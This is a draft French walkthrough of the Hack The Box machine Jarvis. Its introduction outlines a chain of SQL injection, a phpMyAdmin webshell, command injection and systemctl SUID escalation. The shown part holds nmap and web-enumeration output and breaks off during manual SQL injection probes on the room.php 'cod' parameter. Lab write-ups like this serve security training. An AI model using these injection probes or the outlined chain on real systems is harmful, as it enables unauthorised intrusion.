






---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Jarvis — HTB Medium Writeup & Walkthrough"
linkTitle: "Jarvis"
slug: "jarvis"
date: 2026-07-22T16:01:53+02:00
#lastmod: 2026-07-12T16:01:53+02:00
draft: true

# --- PaperMod / navigation ---
type: "writeups"
summary: "Jarvis (HTB Medium) : injection SQL, accès via phpMyAdmin, injection de commandes et escalade avec systemctl SUID." 
description: "Writeup de Jarvis (HTB Medium) : injection SQL, accès via phpMyAdmin, pivot vers pepper et escalade grâce à systemctl SUID." 
tags: ["Hack The Box","HTB Medium","Web","SQL Injection","sqlmap","phpMyAdmin","Command Injection","sudo","SSH","systemctl","SUID","linux-privesc"]
categories: ["Mes writeups"]

# Ajouter ensuite uniquement des tags techniques réellement utilisés dans le writeup,
# par exemple :
# - prise de pied : "Web", "SSH", "FTP"
# - faille : "XSS", "LFI", "RCE", "Path Traversal", "Shellshock"
# - techno / produit : "Grafana", "Chamilo", "CMS Made Simple", "js2py"
# - CVE : "CVE-2021-43798"
# - pivot : "Credential Reuse"
# - privesc spécifique : "sudo", "Docker", "Cron", "ACL", "PATH Hijacking", "tmux", "npbackup", "pspy64"

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Machine Jarvis HTB Medium exploitée étape par étape via une injection SQL, une injection de commandes et systemctl SUID."
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Jarvis"
  difficulty: "Medium"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","SQL Injection","sqlmap","phpMyAdmin","Command Injection","SSH","systemctl","SUID","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Jarvis> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

La machine **Jarvis** de Hack The Box, classée **HTB Medium**, propose une chaîne d’exploitation progressive mêlant injection SQL, compromission d’une interface phpMyAdmin, injection de commandes dans un script Python et détournement d’un binaire SUID.

L’exploitation commence par l’identification de cette vulnérabilité, puis par son utilisation pour récupérer des informations sensibles et accéder à l’interface phpMyAdmin. Cet accès permet de déposer un webshell sur le serveur et d’obtenir une première connexion avec les privilèges de l’utilisateur `www-data`.

La progression vers l’utilisateur `pepper` passe ensuite par l’analyse d’un script Python exécutable avec `sudo`. Une injection de commandes dans ce script permet d’exécuter des actions avec les privilèges de `pepper`, puis de mettre en place un accès SSH plus stable.

Enfin, l’escalade de privilèges repose sur une mauvaise configuration du binaire `systemctl`, auquel le bit SUID a été attribué. En créant une unité `systemd` exécutée avec les privilèges de `root`, il devient possible de générer une copie SUID de Bash et de prendre le contrôle complet de la machine.

Cette machine propose ainsi un parcours varié associant injection SQL, exploitation d’une interface d’administration, injection de commandes dans un script Python, gestion d’un accès SSH et détournement d’un binaire SUID.

---

## Énumération



### Scan initial

Le scan TCP complet (`scans_nmap/full_tcp_scan.txt`) montre les ports ouverts suivants :

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/jarvis/full_tcp_scan.txt jarvis.htb
Nmap scan report for jarvis.htb (10.129.x.x)
Host is up (0.011s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
64999/tcp open  unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 8.98 seconds
```

### Scan FTP/SMB

Après le scan initial, le script vérifie la présence éventuelle de services **FTP** ou **SMB** afin de lancer une énumération ciblée si nécessaire :

- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats sont enregistrés dans (`scans_nmap/enum_ftp_smb_scan.txt`) :

```bash
# mon-nmap — ENUM FTP / SMB
# Target : jarvis.htb
# Date   : [date]

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,80,64999
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Ce scan fournit des informations détaillées sur les services et versions détectés.

Les résultats sont enregistrés dans (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour jarvis.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80,64999" --script="(http-vuln-* or http-shellshock or ssl-heartbleed or ssl-cert) and not (http-vuln-cve2017-1001000 or http-sql-injection or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "jarvis.htb"

# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80,64999 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed or ssl-cert) and not (http-vuln-cve2017-1001000 or http-sql-injection or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/jarvis/aggressive_vuln_scan_raw.txt jarvis.htb
Nmap scan report for jarvis.htb (10.129.x.x)
Host is up (0.0083s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   13.56 ms 10.10.x.1
2   7.00 ms  jarvis.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 15.56 seconds
```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (`scans_nmap/cms_vuln_scan.txt`).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80,64999 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/jarvis/cms_vuln_scan.txt jarvis.htb
Nmap scan report for jarvis.htb (10.129.x.x)
Host is up (0.0095s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-headers: 
|   Date: [date] 14:09:19 GMT
|   Server: Apache/2.4.25 (Debian)
|   Set-Cookie: PHPSESSID=m3iv2595r5n32c3afute10j9f6; path=/
|   Expires: Thu, 19 Nov 1981 08:52:00 GMT
|   Cache-Control: no-store, no-cache, must-revalidate
|   Pragma: no-cache
|   IronWAF: 2.0.3
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
|_http-title: Stark Hotel
| http-enum: 
|   /phpmyadmin/: phpMyAdmin
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.25 (debian)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.25 (debian)'
|_  /js/: Potentially interesting directory w/ listing on 'apache/2.4.25 (debian)'
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; php: 2
|     /css/
|       css: 1
|     /fonts/flaticon/font/
|       css: 1
|     /images/
|       jpg: 8
|     /js/
|       js: 6
|   Longest directory structure:
|     Depth: 3
|     Dir: /fonts/flaticon/font/
|   Total files found (by extension):
|_    Other: 1; css: 2; jpg: 8; js: 6; php: 2
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-headers: 
|   Date: [date]
|   Server: Apache/2.4.25 (Debian)
|   Last-Modified: Mon, 04 Mar 2019 02:10:40 GMT
|   ETag: "36-5833b43634c39"
|   Accept-Ranges: bytes
|   Content-Length: 54
|   IronWAF: 2.0.3
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    Other: 1
|_http-devframework: Couldn't determine the underlying framework or CMS. Try increasing 'httpspider.maxpagecount' value to spider more pages.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 28.47 seconds
```


### Scan UDP rapide

Le script lance également un scan UDP rapide afin de détecter d’éventuels services supplémentaires (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/jarvis/udp_vuln_scan.txt jarvis.htb
Nmap scan report for jarvis.htb (10.129.x.x)
Host is up (0.013s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   open|filtered msrpc
137/udp   closed        netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 10.03 seconds
```


### Énumération des chemins web

Pour la découverte des chemins web, tu peux utiliser le script dédié .

```bash
mon-recoweb jarvis.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier `RESULTS_SUMMARY.txt` regroupe les chemins découverts, ce qui évite de devoir parcourir l’ensemble des logs générés.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.3

Cible        : jarvis.htb
Périmètre    : /
Date début   : [date]

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://jarvis.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/jarvis.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://jarvis.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/jarvis.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/jarvis.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://jarvis.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/jarvis.htb/ffuf_files.json 2>&1 | tee scans_recoweb/jarvis.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://jarvis.htb/. (CODE:200|SIZE:23628)
http://jarvis.htb/connection.php (CODE:200|SIZE:0)
http://jarvis.htb/css/
http://jarvis.htb/css/ (CODE:301|SIZE:306)
http://jarvis.htb/fonts/
http://jarvis.htb/fonts/ (CODE:301|SIZE:308)
http://jarvis.htb/footer.php (CODE:200|SIZE:2237)
http://jarvis.htb/.htaccess.bak (CODE:403|SIZE:275)
http://jarvis.htb/.htaccess (CODE:403|SIZE:275)
http://jarvis.htb/.htc (CODE:403|SIZE:275)
http://jarvis.htb/.ht (CODE:403|SIZE:275)
http://jarvis.htb/.htgroup (CODE:403|SIZE:275)
http://jarvis.htb/.htm (CODE:403|SIZE:275)
http://jarvis.htb/.html (CODE:403|SIZE:275)
http://jarvis.htb/.htpasswd (CODE:403|SIZE:275)
http://jarvis.htb/.htpasswds (CODE:403|SIZE:275)
http://jarvis.htb/.htuser (CODE:403|SIZE:275)
http://jarvis.htb/images/
http://jarvis.htb/images/ (CODE:301|SIZE:309)
http://jarvis.htb/index.php (CODE:200|SIZE:23628)
http://jarvis.htb/js/
http://jarvis.htb/js/ (CODE:301|SIZE:305)
http://jarvis.htb/nav.php (CODE:200|SIZE:1333)
http://jarvis.htb/.php (CODE:403|SIZE:275)
http://jarvis.htb/phpmyadmin/
http://jarvis.htb/phpmyadmin/ (CODE:301|SIZE:313)
http://jarvis.htb/server-status (CODE:403|SIZE:275)
http://jarvis.htb/server-status/ (CODE:403|SIZE:275)
http://jarvis.htb/wp-forum.phps (CODE:403|SIZE:275)

=== Détails par outil ===

[DIRB]
http://jarvis.htb/css/
http://jarvis.htb/fonts/
http://jarvis.htb/images/
http://jarvis.htb/index.php (CODE:200|SIZE:23628)
http://jarvis.htb/js/
http://jarvis.htb/phpmyadmin/
http://jarvis.htb/server-status (CODE:403|SIZE:275)

[FFUF — DIRECTORIES]
http://jarvis.htb/css/ (CODE:301|SIZE:306)
http://jarvis.htb/fonts/ (CODE:301|SIZE:308)
http://jarvis.htb/images/ (CODE:301|SIZE:309)
http://jarvis.htb/js/ (CODE:301|SIZE:305)
http://jarvis.htb/phpmyadmin/ (CODE:301|SIZE:313)
http://jarvis.htb/server-status/ (CODE:403|SIZE:275)

[FFUF — FILES]
http://jarvis.htb/. (CODE:200|SIZE:23628)
http://jarvis.htb/connection.php (CODE:200|SIZE:0)
http://jarvis.htb/footer.php (CODE:200|SIZE:2237)
http://jarvis.htb/.htaccess.bak (CODE:403|SIZE:275)
http://jarvis.htb/.htaccess (CODE:403|SIZE:275)
http://jarvis.htb/.htc (CODE:403|SIZE:275)
http://jarvis.htb/.ht (CODE:403|SIZE:275)
http://jarvis.htb/.htgroup (CODE:403|SIZE:275)
http://jarvis.htb/.htm (CODE:403|SIZE:275)
http://jarvis.htb/.html (CODE:403|SIZE:275)
http://jarvis.htb/.htpasswd (CODE:403|SIZE:275)
http://jarvis.htb/.htpasswds (CODE:403|SIZE:275)
http://jarvis.htb/.htuser (CODE:403|SIZE:275)
http://jarvis.htb/index.php (CODE:200|SIZE:23628)
http://jarvis.htb/nav.php (CODE:200|SIZE:1333)
http://jarvis.htb/.php (CODE:403|SIZE:275)
http://jarvis.htb/wp-forum.phps (CODE:403|SIZE:275)
```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
=== mon-subdomains jarvis.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.1
Date         : [date]
Domaine      : jarvis.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=200 size=23628 words=1653 (Host=daot3mm8vw.jarvis.htb)
  Baseline#2: code=200 size=23628 words=1653 (Host=o6pqndm66a.jarvis.htb)
  Baseline#3: code=200 size=23628 words=1653 (Host=qq60my34y2.jarvis.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)

Port 64999 (http)
  Baseline#1: code=200 size=54 words=11 (Host=fkm65cif6r.jarvis.htb)
  Baseline#2: code=200 size=54 words=11 (Host=7nlv20jtcf.jarvis.htb)
  Baseline#3: code=200 size=54 words=11 (Host=fylhqnm91z.jarvis.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains jarvis.htb END ===
```

Si aucun vhost distinct n’est identifié, ce fichier confirme l’absence de résultats supplémentaires.

## Prise pied

### Analyse des pistes issues de l’énumération

La phase d’énumération a mis en évidence plusieurs services et éléments intéressants autour de l’application web hébergée sur `jarvis.htb`.

Le port `80` donne accès à un site de réservation hôtelière développé en PHP.


En explorant le site, tu découvres plusieurs pages permettant d’afficher les informations relatives aux différentes chambres proposées. Les liens correspondants sont construits sur le même modèle :

```text
http://jarvis.htb/room.php?cod=x
```




Le paramètre `cod` reçoit une valeur numérique différente selon la chambre sélectionnée et semble donc être utilisé pour récupérer dynamiquement les informations affichées.

L’énumération révèle également la présence d’une interface phpMyAdmin. Celle-ci pourrait permettre d’administrer la base de données, mais son accès nécessite des identifiants que tu ne possèdes pas à ce stade.




Les résultats de l’énumération indiquent par ailleurs que le site semble protégé par **IronWAF**. Il s’agit d’un pare-feu applicatif web chargé d’analyser les requêtes HTTP et de bloquer celles qui paraissent malveillantes.

Un autre service web est accessible sur le port `64999` et affiche uniquement le contenu suivant :

```text
Hey you have been banned for 90 seconds, don't be bad 
```



Cette page très sommaire semble liée au fonctionnement ou à la configuration d’IronWAF, sans pour autant constituer l’interface du pare-feu lui-même ni fournir directement d’information exploitable.

Tu disposes donc de plusieurs pistes potentielles : l’application PHP, le paramètre `cod`, l’interface phpMyAdmin et le service associé à IronWAF. Cependant, aucune d’entre elles ne révèle encore de point d’entrée évident.

La piste la plus accessible consiste alors à examiner plus précisément le comportement des paramètres que tu peux contrôler, en particulier le paramètre `cod` utilisé par les pages `room.php`.

Comme sa valeur semble servir à récupérer dynamiquement les informations d’une chambre depuis la base de données, une éventuelle injection SQL constitue une hypothèse qu’il convient désormais de vérifier.

### Recherche d’une injection SQL

#### Vérification manuelle du comportement du paramètre `cod`

Le paramètre `cod` utilisé par la page `room.php` reçoit normalement une valeur numérique correspondant à la chambre à afficher :

```url
http://jarvis.htb/room.php?cod=2
```

Avec cette valeur, l’application affiche correctement les informations de la chambre numéro `2`.



Avant d’utiliser un outil automatisé, tu modifies manuellement ce paramètre afin d’observer la manière dont il est traité par l’application.

Tu ajoutes d’abord une apostrophe après la valeur numérique :

```url
http://jarvis.htb/room.php?cod=2'
```

Cette fois, la page ne retourne plus les informations de la chambre. 



Ce comportement constitue un premier indice : l’apostrophe semble perturber la syntaxe d’une requête SQL construite à partir de la valeur de `cod`. Il ne suffit toutefois pas, à lui seul, pour confirmer une injection SQL.

Tu compares ensuite le résultat de deux conditions SQL simples, l’une toujours vraie et l’autre toujours fausse :

```url
http://jarvis.htb/room.php?cod=2 AND 1=1
```

La condition `1=1` étant vraie, la page continue d’afficher les informations de la chambre numéro `2`.

```url
